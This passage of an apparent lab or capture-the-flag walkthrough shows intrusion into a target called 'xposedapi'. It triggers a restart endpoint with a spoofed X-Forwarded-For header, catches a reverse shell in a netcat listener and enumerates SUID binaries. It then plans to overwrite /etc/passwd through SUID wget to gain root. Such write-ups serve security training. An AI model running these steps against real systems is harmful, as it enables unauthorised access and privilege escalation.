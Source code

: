 Reading the delivered source code, it looks like the request to this  endpoint should actually be a POST - not a GET. Let’s give that a try.

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.120.149:13337/restart -H "X-Forwarded-For: localhost"
Restart Successful.
```

The API is reporting that the service has been restarted. If we now  look back to our Netcat listener, we have received our reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.149: inverse host lookup failed: Unknown host
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.149] 42202
python -c 'import pty; pty.spawn("/bin/bash")'
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ id
id
uid=1000(clumsyadmin) gid=1000(clumsyadmin) groups=1000(clumsyadmin)
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$
```

## Escalation

### SUID Enumeration

We’ll start local enumeration by looking at the binaries with the SUID bit set.

```
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ find / -perm -u=s -type f 2>/dev/null
<admin/webapp$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/wget
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
```

In this listing, we are very fortunate to find the **/usr/bin/wget** binary, which will make for an easy privilege escalation. The binary’s `-O` output option will allow us to overwrite sensitive system files. For a straight-forward example, we can overwrite the **/etc/passwd** file and introduce a new user in the `root` group.
